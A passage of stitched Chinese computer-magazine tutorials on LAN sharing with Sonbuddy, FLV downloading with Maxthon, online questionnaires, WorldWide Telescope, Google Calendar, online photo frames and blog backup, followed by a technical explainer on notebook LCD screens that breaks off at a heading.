在局域网内文件共享应该是必不可少的功能，但是每次通过网上邻居一步步操作，感觉既麻烦又不安全。而在Sonbuddy中程序本身提供了一个文件共享功能，这样只有安装了该软件的用户才能共享文件，这个功能比网上邻居的共享功能更方便、安全。和好友共享文件时，单击程序工具栏中的“我的共享”文件夹，打开Sonbuddy自带的共享文件夹（该文件夹名为SONShared，在Sonbuddy按钮目录下），我们可以将需要共享的文件保存到该文件夹中。随后当其他用户查看我们的共享文件时，只要在Sonbuddy主界面“好友共享”列表中双击该用户打开“共享文件列表”（如图16），即可查看对方的共享文件。选中某个共享文件后，在该文件上单击右键，在弹出的菜单中选择“下载”命令，即可将该文件下载到本地电脑中。



#### ②发送文件

如果你和同事间经常进行文件交换等操作，可以用Sonbuddy快速发送文件，非常方便。首先在好友列表中右键单击需要发送文件的好友图标，在弹出的对话框中选择“发送文件”命令，打开“文件发送”对话框（如图17），在此选择好需要发送的文件随后单击“发送”按钮，这样就可以把文件发送给对方。



#### ③共享屏幕

在Sonbuddy中程序还提供了共享屏幕功能，这个功能类似于Windows自带的桌面连接，通过该功能可以控制对方的计算机桌面，为远程维护电脑提供方便。首先在“好友屏幕”项中双击需要共享屏幕的好友图标，随后打开一个“发送请求”对话框，在此如果勾选“我只想查看”复选框，我们只能浏览对方桌面信息，如果我们想操作对方桌面，还要将该复选框取消。单击“确定”按钮，此时对方收到一个连接确认信息。好友单击“接受”按钮后我们就可以控制对方桌面了（如图18）。



在Sonbuddy中我们还可以对远程桌面的项目进行设置，当好友在接收到确认信息时，单击“选项”按钮，打开一个“本地控制选项”（如图19），在此点选“共享特定程序所在的区域”，随后在下面的类别中选中需要共享的程序，这样我们只能查看对方指定的共享程序所在的屏幕区域了。



此外，Sonbuddy还提供多项共享服务器，如语音聊天、游戏共享等，给用户间交流带来方便。怎么样，通过上面介绍的几种局域网组建的方法，你是不是对宿舍搭建局域网有了更多的了解，这样你就可以根据自己的实际情况搭建一个适合你们宿舍的局域网了。

## 巧用傲游浏览器来下载FLV视频

◆文/飞云

在网上有很多在线视频的网站，这些网站的在线视频大多数都是FLV格式的，想下载它，需要专用的下载软件才可以，其实我们只要使用傲游浏览器就可以轻松下载它们。

首先打开傲游浏览器，点击菜单“工具→网页嗅探器”，在弹出的窗口中选择嗅探文件的类型为“FLV”格式，再把下面的“显示嗅探通知”选中，完成后点击“确定”按钮（如图1）。



设置好后打开在线视频的网页，这时在浏览器右下角就会显示一个通知窗口，我们点击它就会弹出一个窗口，点击该窗的“嗅探器”标签就可以看见浏览器嗅探出FLV视频的地址了，在地址上点击鼠标右键选择“使用傲游下载”，这样就可以直接把视频下载到你的电脑里了，是不是很方便啊（如图2）。



## 网络上的‘杜蕾斯’
## ——问卷调查网上做

问卷调查便于我们对调查结果进行定量研究，而且它节省时间、人力、物力及财力，因此越来越多的朋友在工作或学习当中青睐于调查问卷。可是前期设计制作调查问卷却让许多朋友煞费苦心，他们常常为制作调查问卷头痛不已。

从今天起，各位朋友再不用为制作调查问卷而困惑了，我们将为大家介绍一个灵活的在线问卷生成系统——“问道”，它将为你量身定做最专业的调查问卷。你只需简单的几步操作，就能轻松完成问卷的设计制作工作。

◆文/TMG zzx

## 一、进入“问道”调查问卷的平台

在我们的浏览器地址栏里输入http://www.askform.cn/网址，单击回车键，我们会看到如图1所示的界面。



在该网页中最下面一排是已经制造好的调查问卷，我们可单击进入相应的界面查看相关文章，供我们参考和使用。

该界面上，左上角处是在线问卷生成系统使用流程说明。我们可从左到右依次单击进入各界面学习使用该系统。

## 二、注册创建属于你自己的问卷

我们开始快速注册“问道”系统，单击“注册”图标，将会进入到“问道”用户注册的界面，将按照界面上的提示信息，一步一步填写“问道”用户注册的相关内容。

全部信息正确输入后，单击“确定”，系统将自动跳转到你的个人管理后台。

## 三、创建你的问卷

在个人管理后台，将鼠标放置在“后台管理”图标上，会出现一个列表，我们选择“创建问卷”。

单击“创建问卷”，会进入到创建问卷界面。首先要填写的是问卷的基本信息：问卷的标题：大学生手机使用状况调查问卷（笔者为向读者说明如何使用该系统，自定的标题）；问卷的说明：对问卷的一个简单说明，读者可根据自己的调查问卷，填写相关信息。并且可对文本属性进行修改。

下拉右面的滚动条，继续填写问卷其他信息，我们将看到如图2所示的界面。



在该界面里，我们将填写以下内容：问卷标签：我们可以填写一个或多个关键字（多个关键字中间用空格隔开）；类别：单击右面的小箭头，在出现的下拉列表里选择相应的类别；语言：我们这里选择的是简体中文；提交后提示信息：你可填写个性化的提示文字；对于奖品的设置、是否讨论、是否重复提交、查看结果等相关信息可根据你问卷的需求进行设置；问卷结束日期：如果不设具体时间，界面不出现日期的选项，如果有具体的日期，你可在右面的日历图标里选择相应的日期；当全部信息正确输入完成后，单击界面最下边的“提交”按钮。

在该界面里，我们将要进行问卷的题目设计。

在这里，你可以开始设计自己的问卷了，该系统为你提供了单选、多选、单行输入、多行输入等题目类型供选择，同时还提供题库，让你设计问卷更加方便、快捷。

创建题目类型有两种方法：一是直接单击相应的题目类型按钮；二是将相应的题目类型按钮拖曳到任意位置。

我们这里选择第一种方法。单击“单选”－“编辑”按钮，进行细致的题目编辑，说明栏里填写的是你对问题的描述，系统本身设置了3个选项，你还可以增加或删减选项；如果你在右下角“其他栏”里打钩，界面上会出现“其他”选项，并且你还可以在该选项里做简单文字说明；如果你在“跳转题”栏里打钩，此题每个选项后会出现“跳到”栏，你可以分别设置选择不同的选项跳转到不同的题目中去；最右边有一个“类型”选择按钮，在这里我们向读者说明的是单选题和多选题可以互相转换。此题如果必须选择，你要在“必选”栏里打钩。信息正确输入完成后，单击“确定”。

系统还提供了更加便捷的方式编辑题目：我们可以从现有题库中插入题目：在“表单工具”对话框中，单击“题库”按钮，在该界面里，可以输入一些与你调查问卷内容相近的关键字进行搜索，在这里我们输入的关键字是“手机”，然后单击搜索，即会得到很多与手机相关的题目供我们选择，从中找出符合我们需求的题目。

如果你对题目不太满意，还可进一步进行修改，你可单击“编辑”，按照第一题的方法进行相关的修改。

## 四、调查问卷的发布

题目全部完成后单击“完成”按钮，进入一个问卷的管理选项卡，如果我们对调查问卷的基本属性，问卷的题目还不满意，我们可以点击“修改属性”、“修改问卷”的图标进一步修改，直到满意为止。“报表统计”是我们的问卷发布后，对调查结果所作的一个详尽的统计。“问卷传播”即问卷的调用方式，该系统向我们提供多种发布方式，有Flash代码调用：通过Flash的Widget，将问卷调用到博客、网页、论坛上，方便你收集问卷信息。你还可以设定博客的信息、Widget的大小、Widget的主题。其他还有Script代码调用、Iframe代码调用、自定义代码调用、链接代码调用，以及好友共享。“好友共享”提供多种途径让你的朋友分享你的问卷调查。最后单击“点击发布”，你的调查问卷已全部完成。你只需在你规定的时间内收集调查问卷信息，查看“报表统计”，分析数据。

## 电脑前的天文观测站

◇文/TMG zzx

越来越多的人被宇宙的奇观、星空的奥秘所吸引，由于繁忙的工作、紧张的学习让大多数人没有足够的时间去真实感受天空中闪烁的群星，去领略浩淼的宇宙中的乐趣，如何解决该矛盾呢？微软公司新近推出的WorldWide Telescope微软桌面望远镜软件将为你排忧解难，让你足不出户，就能欣赏太空美景，更为理想的是该软件支持对太空中不同的区域进行缩放观看，对于每一个区域还能用红外和其他非可见光等模式观看。这么妙的桌面望远镜软件，你还等什么，赶快跟我来学习如何操作该软件吧！

从http://download.pchome.net/industry/geography/detail-88342.html下载该软件，然后一路“Next”（下一步）完成安装。然后启动进入到如图1所示的界面。

界面中间是微软桌面望远镜软件一个简单的操作说明的对话框，点击或拖动鼠标可以改变我们观察天空的视野范围；拖动鼠标或者按-/+键或者按上一页/下一页键均可变焦；拖动鼠标中心按钮或按住CTRL键的同时拖动鼠标旋转和倾斜可以改变我们的视野范围；最后可以单击“Close”关闭该对话框。如图2的界面。




最左面的“look at”图标是让你选择你所观测的星体类型；单击图2处的小三角图标，可在下拉列表里进行选择；“Imagery”图标：你可以选择展现意象的方式；“context search filter”图标：你可以选择在什么样的范围内进行搜索；界面最上面一排是相关控件的选择。经过以上的操作说明，你现在可以坐在电脑前，享受太空世界里的乐趣了！

# 网络加油站 SOLUTIONS

你还在为无法很好地管理自己琐碎的日程而苦恼吗？你还在为不能按时参加朋友的活动而沮丧吗？新推出的Google日历让你轻松掌握生活中的各种重要事项，你不必担心会错过任何一件事情；它还能帮助你与好友共享日历，邀请他人参与你日历上的任何活动。无论被邀请者是否使用Google日历，都可通过电子邮件回复你的邀请。简单几步，你的好友就能在你的Google日历上找到即将到来的活动通知；更加实用的是，你的学校、公司使用了Google日历，既可以方便全体师生员工查阅日程安排，又利于部门间日程衔接，避免行程冲突。

## 邀你一起畅游Google日历

◆文/TMG zzx

这么棒的Google日历，你还等什么，赶快上手操作吧！

### 一、申请Google账号

在浏览器地址栏里输入http://www.google.com/calendar网址，单击回车键，进入申请网址，单击右边“创建账户”图标，按照界面上的提示信息，一步一步填写创建Google账户相关内容。
注册完成后即可进入到Google日历界面，如图1。



### 二、认识Google日历界面

图1是Google日历的界面，我们可以通过标签按日、按周、按月或下一个四天查看你的日历。“日程”标签以列表形式显示活动，你可根据需要自定义视图；还可以对日历进行相关的设置、创建日历、添加好友日历等操作。

### 三、发布我们的日程

假设将要发布“2008年9月30日19:00在学校大礼堂举行国庆联欢晚会”这则信息。首先在左面微型日历中找到9月30日，然后单击30日，弹出新界面，在任意空白处单击，再点击“修改活动详细信息”，进入如图2所示的界面。
在该界面中，我们即可对日程进行安排。设置完成后回到了最开始的日历界面上，可以看到刚才设置的活动出现在界面上，是绿色的模块。



### 四、共享日历

单击用户名右面的小三角图标，会出现对话框。在该对话框中我们选择“共享此日历”进入设置界面，选择“公开此日历”，也就是与全世界共享你的日历并使其他人能够搜索到你的日历。你也可以与特定的人共享日历，只需输入该用户的电子邮件地址即可。全部设置完成后，单击保存，就完成了日程的制作。
我们还需说明的是，如果是公司或者是学校部门发布日程信息，在制作完成后，还需要信息中心将信息进行汇总。具体操作步骤如下：信息中心登录到Google日历后，必须把全公司（全校）各部门的Google账号添加为好友，便于集中发布各种日程。我们单击页面左侧的“其他日历一添加”按钮，依次输入各部门的Google账号，多个账户之间请用逗号分隔。
为了在局域网上能够集中显示各部门发布的工作日程，信息中心还必须制作一张汇聚本公司（本校）各部门日程的“日历”。单击网页左侧用户名后面的三角形箭头，选“日历设置”，进入日历设置界面，单击此界面中嵌入此日历中的“自定义颜色、大小和其他选项”，在“嵌入式Google日历助手”网页进行相关的设置。
最后把网页右侧的HTML代码复制到一张新的网页中，就得到一张由各部门分头编入的日程，系统将自动汇聚公司的日历或校历。

## 让Photoshop歇会儿——在线为照片加边框

◆文/TMG dzr

### 一、巧用LoonaPix添加边框

以前很多朋友为图片添加边框时需要用到Photoshop等专业的软件，Photoshop等专业软件固然功能很强大，但毕竟操作起来比较麻烦，那么有没有一种更简单快捷的方法呢？下面就为大家介绍两个在线为图片添加边框的网站——LoonaPix和Instantzer，不但操作简便而且都无需注册即可免费使用。

LoonaPix为大家提供了种类丰富的边框，可以产生不同的奇妙效果，按以下步骤操作，你很快就会掌握操作方法的。
- 第一步：在网址栏输入以下地址：http://www.LoonaPix.com/，打开网页，进入网站主页面（如图1所示）。


- 第二步：仔细观察你会发现该网站提供了三种不同风格的边框：“Loonapic Effect”、“Photo Frames”和“Photo Trim”（如图2圈内所示），添加边框效果参照圈内右边的示例图片。三种虽然风格不同，但操作方法完全一样，所以这里仅以“Photo Frames”为例示范操作。



- 第三步：找到“Photo Frames”标题下方的“Make Photo Frames”（如图3圈内所示），单击进入边框添加页面（如图4所示）。



- 第四步：在该页面上方点击“浏览”按钮（如图5圈内所示）。



会弹出一个对话框，选择需要添加边框的图片，选定后点击打开（如图6所示）。



系统就会自动将图片上传到网站，显示在左边的位置上（如图7所示）。



- 第五步：在该页面右边找到“Select category”标题下包含“new”、“top rated”、“emotions”、“friends”、“occasions”、“others”、“baby”等几个边框类别（如图8圈内所示），可以按自己的需求进行选择。


单击选择类别后，再在下方“Select frame”标题下选择你需要的样式（如图9圈内所示）。



- 第六步：选定合适的边框后，在图片上方“Scale photo”后面通过拖动中间的按钮可以调整图片的大小比例（如图10圈内所示），以适应相框的要求，点击“Reset”按钮则使图片恢复初始的100%比例。



- 第七步：如发现图片在相框内的位置不合适，可以用鼠标左键点击图片拖动至合适位置。在该页面最下方找到“Save”按钮（如图11圈内所示）。



点击后会弹出另外一个页面，添加好边框的图片很醒目地显示在你面前，在图片下方有个“Save to disk”（如图12圈内所示）。



点击后弹出一个对话框，点击保存，又弹出一个对话框，选择图片要存放的位置，比如“我的文档”里的图片收藏夹，再点击保存，这样图片就被保存到图片收藏夹了。



### 二、利用Instantizer为图片在线添加边框并旋转角度

Instantizer不同于LoonaPix之处在于你可以将图片描述打在添加的边框上，此外还可以旋转角度，这样看起来总体上有种签名照的效果哦！当然边框的种类没有LoonaPix丰富，只有一种。按以下步骤你会很快掌握操作方法的。
- 第一步：在地址栏输入以下网址：http://www.instantizer.com/，打开网页，显示网站主页（如图14所示）。



- 第二步：在页面下方找到“浏览”按钮，单击后弹出一个对话框，选择需要添加边框的图片，选定后点击打开（如图15所示），文本框内会显示出该图片的地址。



- 第三步：在“Add A Brief Description”后面文本框内输入图片的文字描述，如“Flower”（如图16圈内所示），注意只能输入英文，输入中文会显示乱码。



- 第四步：在“Rotate”后可以输入图片的偏转角度，如“30”（如图17圈内所示），表明添加边框的图片将会偏转30度。



- 第五步：点击最下方的“Upload Picture!”按钮（如图18圈内所示），系统会自动把你选定的图片上传到网站并按照预先的设定添加边框和旋转角度。



- 第六步：添加好边框的图片下方是引用地址（如图19圈内所示），直接复制引用即可。



综述：以上两个网站都能让你简单地为照片加上漂亮的边框，怎么样，是不是很有意思啊！

## 博客备份很轻松

◆文/TMG dzr

时下无论在国外还是在国内，博客的发展异常迅速，博客以及博客文化正在流行，每天都将自己一天来发生的事情和心情的好坏记录在自己的博客上已经成为越来越多网友的日常习惯了。但令许多朋友担心的问题是，现在大多数的博客网站基本上都不提供在线备份的功能，这意味着一旦登录密码丢失，那么已发表的博客内容就有不久后被删除的危险。怎么解决这个问题呢？

现在有两个解决办法：一是在一些网站上（比如“BlogBackupr”网站）选择在线备份博客，虽然看起来比较方便快捷，但操作起来容易受到网络条件的限制，而且对有些博客版本不是很适用，会显示乱码；二是下载一个第三方软件，在自己的电脑上完成备份，这里给大家介绍一款功能完善的博客备份工具——Blog Backup，完全绿色免费，不需要密码，还可以设置代理服务器，支持国内所有大型BSP，导出内容可以为多种格式，包括普通网页文件（单个或多个HTML文件）、RSS 1.0 Document、RSS 2.0 Document、Atom 0.3 Feed和普通文本文件（单个TXT文件）等，运用这款软件不仅可以备份自己的博客，还可以备份别人的博客达到收藏的目的，真的是一款实实在在的博客文章下载器。还犹豫什么呢？快按照下面的步骤操作，轻轻松松备份你的博客吧！

- 第一步：下载安装软件，下载地址为：http://www.itxiazai.com/soft/2007/05/16/20606.html，下载完毕后解压缩文件，在文件夹里找到“blog_backup.exe”应用程序（如图1所示），鼠标左键双击打开主页面。



- 第二步：打开该软件主页面后，在左下角找到“新增用户”按钮（如图2圈内所示）。


鼠标左键单击后，会弹出一个对话框（如图3所示），在对话框上方，首先要选择你的博客所属的服务器类别（如图3圈内所示）。



在此，以新浪博客为例进行说明，在下拉菜单里选择“新浪2”选项（如图4所示）。



- 第三步：填写用户名、别名、并选择分类（首次使用可先单击“新增分类”按钮，新增一个分类使用，如“bokee”），注意参看BSP说明（如图5圈内所示），比如你在上一步选择的博客类别是新浪2，那么用户名就应该填写你的博客地址http://blog.sina.com.cn/XXX后面的“XXX”，最后在“URL地址”后面确定你的博客地址是否正确。



- 第四步：确认无误后单击右上角的“新增用户”按钮，

就会发现主页面左上角已经显示出了新用户（如图6圈内所示），鼠标选中“adu”，单击下方的“备份博客”（如图6圈内所示），该软件就开始备份你的博客内容了。



- 第五步：备份完成后（速度非常快，比如我的博文有119篇，用了不到1分钟），可以发现你博客内的所有文章的标题显示在了主页面上，这时你的博客内容已经被暂时保存在软件的缓存中，单击页面下方的“导出文件”按钮（如图7圈内所示），又弹出一个对话框（如图8所示），可以选择需要导出的文件类型，此外还可选择导出文件顺序是正序还是反序，还有文件的编码方式，在此我们选择“普通网页文件（多个HTML文件）”选项，文件顺序为“反序”，文件编码方式为“GBK编码”。



- 第六步：在弹出的对话框的左下方有个“下载图像”按钮（如图8圈内所示），如果你想在备份博客文章的同时也把文章中的表情、图片一起备份，那么可以单击这个按钮，弹出一个对话框，单击左下角的“导入数据”按钮（如图9圈内所示），你会在上方看到你的博客内的图片地址，再单击“下载图片”（如图9圈内所示），软件就开始帮你备份了，备份图片的速度比较慢。





备份完成后，单击“确定”，关闭对话框（如图10所示）。


- 第七步：单击“导出文件”按钮，会弹出一个IE页面（如图11所示），页面上会显示出你备份的博文标题，这时博客内容已经保存在软件安装目录下的“export”文件夹里了，只需单击你要看的内容的标题，即可在新页面里看到相应的内容了。



以后要查看备份的博文，可以单击主页面的“查看文件”，或是在“export”文件夹里单击“index.htm”（如图12圈内所示），都可以打开如图11所示的IE页面。



- 第八步：该软件还提供了丰富的管理和查询功能，在主页面上鼠标右键单击用户别名“adu”，会弹出菜单，大家可以按需操作，如选择“清除缓存”（如图13圈内所示），可以把备份博客过程中产生的缓存清除掉，减少系统垃圾等。



该软件提供2个以上的博客一起备份功能，先通过“新增用户”创建相应的用户名，单击主页面左下方的“备份所有博客”按钮即可（如图7圈内所示），之后操作步骤相同。

## 方寸之间显实力
### ——笔记本屏幕技术解析

◆文/阿亮



## Part1：主流笔记本屏幕现状

对于笔记本电脑而言，液晶屏幕和用户最为密切，它的好坏直接影响用户的健康和工作心情。那些同时使用笔记本电脑和台式机的用户，对LCD屏幕的巨大差距应当有非常深刻的体验。无论是屏幕亮度、色彩表现力还是可视角度，如今笔记本屏幕与台式机LCD之间的差距都非常明显。

### 1.亮度与对比度：表现差强人意

笔记本电脑液晶屏的显示亮度一般在100～150cd/m²左右。这种亮度虽然能够正常工作，但是如果在外界光线较强的地方显示商业文档，以及播放清晰度比较高的商业演示视频文件、DVD影碟时，当前的笔记本电脑液晶屏的亮度就不能胜任。众所周知，液晶显示屏并不发光，其后的灯管正是发光源。传统液晶显示器多采用两根灯管，亮度在250cd/m²。
但是，笔记本电脑的液晶屏要为移动性考虑，做工要更轻薄，也更节能。比如绝大部分的笔记本液晶屏都只采用一根灯管置于屏幕的后方，而且不像台式机LCD显示器有两根、四根甚至六根灯管的配置。所以在亮度上，笔记本电脑液晶显示屏和台式机LCD显示器又有明显的差别。至于对比度，其实际表现和灯管配置也息息相关。受制于笔记本电脑的便携性需求，目前大部分产品普遍只有300：1对比度，对于多媒体表现的制约还是非常明显。

### 2.色彩表现：千篇一律的6bit屏幕

这其实是一个很抽象也很主观的概念，甚至与显示器的亮度以及对比度有很大的关系。不过色彩表现力的的确确是一个独立的概念，理论上可以理解为色彩显示的数目，直观的感受便是画面色彩层次的实际表现。现在，很多LCD显示器通过MVA或是IPS面板达到8bit输出，也就是16.7M色显示。然而，这类液晶面板因为切割成本以及厚度问题而基本无法应用在笔记本电脑屏幕上，所以基于TN面板的6bit输出是绝对的主流，此时只能实现16.2M色显示。

目前的笔记本电脑多数使用非晶硅TFT LCD，但是近期经常有厂商宣传其液晶面板技术经过精心改进，可以实现类似MVA或是IPS面板的效果。但是事实上，这类改进技术仅仅是驱动IC部分的操作，并非实际液晶面板的性能提高，所以其色彩表现力依然非常平庸。对于笔记本屏幕而言，由于其切割尺寸实在太小，所以面板厂商一般并不会将拥有最先进技术的大面板流水线用于笔记本屏幕，再加上厚度和驱动IC方面的限制，所以普遍只能实现6bit色彩输出（图1）。


### 3.可视角度与响应时间：可以弥补的差距

笔记本电脑屏幕的可视角度与响应时间基本由液晶面板的性能来决定，但是由于这两项技术指标基本摆脱了对驱动IC以及周边电路的依赖，所以目前表现还算不错。以2006年的新款笔记本而言，采用的液晶面板已经至少能够实现12ms以内的响应时间，这就基本不存在拖影现象，完全能够满足日常娱乐应用的需求。
但是，可视角度却依然是一个不小的弊端。大多数第一代TN面板技术的笔记本屏幕只有140度左右的可视角度，有些甚至更小。尽管这样有助于确保用户的隐私性，可是在看电影或是玩游戏时就不怎么方便了。总之，由于笔记本更多时候是近距离单人使用，所以一般用户并不在意其可视角度。不过可以肯定的是，现在第二代甚至第三代TN面板已经在可视角度方面大幅度改善，实现160度可视角度的笔记本电脑屏幕已经有不少了（图2）。

## Part2: 什么样的屏幕亮度更高？

如果屏幕的亮度过低，那么使用笔记本电脑时就会产生视觉疲劳，不但使用户无心工作或娱乐，更使得心情大坏而得不偿失。如同前几年在显示器市场上席卷而来的“高亮”风潮一样，如今在笔记本市场上也出现了这股潮流，而且还有不少厂商将这一卖点当作看家的本领。

### 1. 图层类改进技术

这类LCD屏幕改进技术主要依靠在液晶面板上的多个图层来改善亮度表现。以HP超显亮技术BrightView为例，由于采用特殊工艺抛弃了遮光图层，取而代之的是抗划痕图层，液晶屏的亮度和清晰度都相当高。这种笔记本电脑液晶屏的优点是，无论是文字还是图像，都可以获得清晰的显示效果与高亮度。但是其缺点也比较明显，高亮的液晶屏反光很明显，这样在使用时如果环境光线不合适，就会从屏幕中看到周围的物体，有些影响视觉效果。当然，比起现在流行的镜面屏，至少反光程度还是低了不少（图3）。

明基笔记本的“偏振光分离”技术也是一个典型代表。利用“偏振光分离”功能的PCF（Polarization Conversion Film）技术，在光的利用功率原理上有了跳跃性的发展，能够大幅提高LCD面板的亮度。其效果正如聚光片那样提高了正面的亮度，而且也有效地提高了斜面的亮度。所以明基笔记本的LCD面板可借由光的再利用提高亮度，使其亮度大幅提升到200cd/m²（图4）。

图层类改进技术中的另一种则是利用更薄的涂层，而不是实际添加一层基板。以东芝超显亮技术（Clear Super View）为例，其超亮炫彩屏拥有硬涂层和低反射涂层两个层面，而革命性的“低反射双涂层”技术有效地解决了内光散射与外光反射的问题。当屏幕背光穿过液晶板的时候会先经过硬涂层，涂层此时起到了抑制光线散射的作用，从而使图像更鲜亮。NEC的超级广角炫丽屏也有类似的效果。其表层玻璃比其他的LCD更薄、更透明，它具有Glare和AR低反射涂层（Anti-Reflection）。Glare涂层是一种聚光膜技术，在不增加灯管、不增加耗能的同时提升屏幕的亮度，能够使屏幕上显示的颜色更加明亮，接近人眼感受到的自然颜色。

最后，我们还得关注一下黑晶α涂层，其原理是通过涂层对光线的过滤作用，滤去光线中的杂波，达到增加透光率、对比度和色彩浓度的效果。而通过特殊涂层与镜面的有效结合，可以有效减少反射，防辐射，从而提高LCD的显示效果。从光学原理上说，某些特殊的涂层无疑是可以改善和提高光线的穿透率和纯度的，由此会带来一些技术指标如对比度和亮度表现上的提升。然而，特殊涂层技术之所以很少应用在LCD上，最根本的原因还是由于在液晶面板表面贴膜的工艺难度极大。而且类似涂层的技术因为需要在完全无尘、无静电、无抖动的严格环境里制作，丝毫的微粒和静电或抖动都会使得涂层掺入杂质或夹杂气泡等。目前，黑晶α层涂层已经发展得比较成熟，国内厂商海尔在笔记本电脑上比较普及化地进行应用，在亮度和对比度上有了进一步的提升，同时还加入了其他如健康等功用（图5）。

所有曾经因为将饮料洒到笔记本键盘上而造成键盘损坏的用户都知道这个常识。不要让任何具有湿气性质的东西进入LCD屏幕。一旦发现有雾气，要用软布将其轻轻地擦去，然后才能开机。如果湿气已经进入LCD屏幕，就必须将本本放置到较温暖的地方，以便让其中的水分蒸发掉。如果发现显示屏表面有污迹，可用沾有少许玻璃清洁剂的软布轻轻地将其擦去，不要将清洁剂直接洒到显示屏表面上，清洁剂进入LCD将导致屏幕短路。此外，擦拭LCD表面的清洁布应该足够柔软，推荐使用3M的思高拭亮魔布。

### 2. 灯管类改进技术

笔记本电脑屏幕的灯管也很值得我们关注。客观而言，采用中间位置的单灯管技术难以在屏幕亮度方面实现突破，但是不同的灯管在效果方面还是有所差异。通过与聚光板和反光板的配合，笔记本电脑屏幕LCD灯管的安装位置以及亮度均匀性控制非常关键，这也是不同厂商在使用相同面板而亮度表现不一的关键原因。

此外，也有一些笔记本电脑屏幕采用了两根灯管，这对于提高亮度表现是大有帮助的。那么，灯管是不是越多越好呢？理论上当然是的，但目前却有两个问题令笔记本厂商“头疼”：首先是技术难度，要想实现多灯管，必须具备极高的制造工艺水平；其次是功耗问题，毕竟笔记本电池的续航能力非常有限。其实，灯管亮度以及灯管根数与耗电量之间有一个平衡关系，厂商只有更好地把握这之间的平衡点才能真正令消费者满意，而不是一味地追求高亮度。

## Part3: 色彩的诱惑：笔记本屏幕最大软肋

色彩一直都是困扰LCD的难题，尽管专业产品能够实现8bit、10bit色彩通道设计，但消费级LCD显示器大多只能实现6bit色彩通道，也就是我们过去所说的18位色。18位色可表现出262144种真实色彩，而真彩则要求24位色，也就是对应16777216色，前者的色彩总数只有后者的2%。但在实际使用中，两者在色彩方面的主观差异远没有数字比例上那么悬殊，毕竟18位色已包含各种常用的色彩，而一幅图像或一段视频中用到的色彩数目不会太多，18位色基本能够应付——即使图像中有某些色彩无法表现，也可以用其他色彩来代替。因此在用户看来，很多18位色显示的图片也都是色彩缤纷，并不比24位色差太多。

### 1. 像素抖动算法与色彩增强技术

尽管6bit面板无法和8bit面板相比，但一下子全部转为8bit面板，从经济学的角度来看也不合适。面对用户不断提高的要求，各大LCD生产厂对于6bit的面板推出了自己独家的色彩增强技术。这一类LCD色彩增强技术，主要目的是缩小6bit面板和8bit面板的差距，延长6bit面板的使用寿命。从实现技术上来看，Pixel Dithering像素抖动算法是目前的主流。

像素抖动通过快速切换两种颜色，人眼的视觉就会“看到”两种颜色之间的第三种色彩，例如快速切换黄色和红色，我们看到的就是橙色效果。抖动技术在一定程度上解决了LCD屏幕颜色不足的问题，但它并不完美。首先抖动产生的颜色实际上是利用人眼的错觉，无论对抖动算法作何改进，所显示出的颜色始终难与真实的色彩媲美，这也是LCD屏幕的色彩效果一直比不上CRT的一大原因。其次，抖动技术无法得到253、254和255三种灰度，实际显示的颜色数比24位真彩少50万种，尽管这个数量谈不上庞大，但255为全白色，缺乏全白显然对实际显示效果有不小的影响。为此，许多笔记本电脑厂商都在色彩增强技术方面做文章，即通过对数字显示信号进行一系列的加工处理，使得每一像素的色彩、亮度、对比度等指标都达到最有利于显示的程度，然后将加工过的显示信号在屏幕上显示。

关于笔记本屏幕的色彩增强技术，目前还没有统一的标准。一般来说，这类色彩增强技术完全依靠IC芯片来实现，有时也整合在驱动IC上。色彩增强技术的本质还仅仅是提高输出锐度，或是进行一些像素抖动算法的补偿。但是，其效果仅仅只能算是一种辅助手段，并不是提高色彩表现力的源动力（图6）。

> 选购笔记本电脑屏幕时要注意的事项
选购笔记本电脑时仔细检验其屏幕表现是很有必要的。首先大家可以着重考察其色彩表现力，最好的方法便是直接与不同的产品进行对比。假如条件不允许，可以用Monitors Matter CheckScreen这款测试软件。它可以很好地检测LCD屏幕的色彩表现力、响应时间、文字显示效果以及有无坏点。Monitors Matter CheckScreen以三原色和1670千万种的色阶画面考察色彩表现力、色彩均匀性和色阶表现力，如果发现过渡部分有明显的模糊现象，那么其色彩表现力可能存在严重缺陷。当然，最简单的方法还是直接用一些场景昏暗的游戏或者DVD影片来测试，真正高亮度与高对比度的LCD屏幕应当至少不会是灰蒙蒙一片。

### 2. 帧速率控制技术

帧速率控制技术主要是利用了视觉惰性的人体生理特性，这个特性大致指的就是人眼的亮度感觉并不会随着物体亮度的消失而立即消失。适当地控制帧速率，再加上对相邻帧之间的颜色进行一定的控制，这样我们在LCD显示器观看动态画面时，同样可以看到LCD显示器本不能显示的颜色。当然，各大厂商都有自己的技术，在具体实现方式和细节上还是有差别的，所以它们各自就有一些对自己专有技术的不同命名。在色彩增强这方面，夏普公司的功力比较深，采用同样的面板，夏普公司的产品色彩会比大多数对手更好，原因就在于此。

客观来说，帧速率控制技术的确是非常有效的，但是具体的实现过程在各大液晶面板厂商手中却是大有玄机。部分液晶面板因为本身的品质不佳，因此无法很好地利用这项技术，这也就使得其色彩表现力明显逊色一些。当然，我们不能认为有了优秀的帧速率控制技术就可以使得6bit TN面板的笔记本电脑屏幕等效于8bit面板，那仅仅是一种补充。事实上，真正值得我们期待的还是新一代B-TNIII液晶面板。这类改进型TN面板可以很好地应用在笔记本电脑屏幕上，而且同样实现了8bit色彩输出。

> 未来的笔记本屏幕展望
未来笔记本屏幕的发展趋势，这是很多用户都非常关心的话题。其实，我们认为最值得期待的还是液晶面板本身的技术进步，以此来帮助笔记本电脑实现更加理想的色彩效果和对比度，弥补其最大的缺陷。既然MVA以及IPS面板基本与笔记本电脑无缘，那么TN面板的改进就很值得期待。现在，三星B-TN III面板已经实现了16.7M色，而且相关的驱动IC集成度也大幅度提高。凭借这些基本条件的支持，未来笔记本电脑屏幕的表现，尤其是色彩表现和可视角度必然会有大幅度的提升。
另一方面，UMPC和微型笔记本电脑上普及应用的触摸屏技术也很值得关注。在各项触摸屏技术中，表面声波技术可谓是最先进的，它巧妙地利用了机械波的反射原理。虽说表面声波技术与红外线技术有些类似，都是依靠用户阻碍反射来定位坐标，但是表面声波的精度、防尘能力、寿命都是红外线技术所不能比拟的。未来，UMPC的液晶屏幕显示效果将很大程度上依赖于触摸屏技术，而成熟的表面声波无疑是最佳的解决方案。

## Part4: 更轻更薄更省电：两种技术奠定基础

对于笔记本电脑而言，LCD屏幕总是一个不小的负担。不仅LCD屏幕耗费的电能非常惊人，其体积也成为影响便携性的不利因素。对比以往的笔记本电脑，如今LCD屏幕的厚度可谓大幅度减小，而功耗也有所降低。但是，在同级别产品对比中，功耗与厚度还是有着不小的差距。

### 1. 近在咫尺的低温多晶硅技术

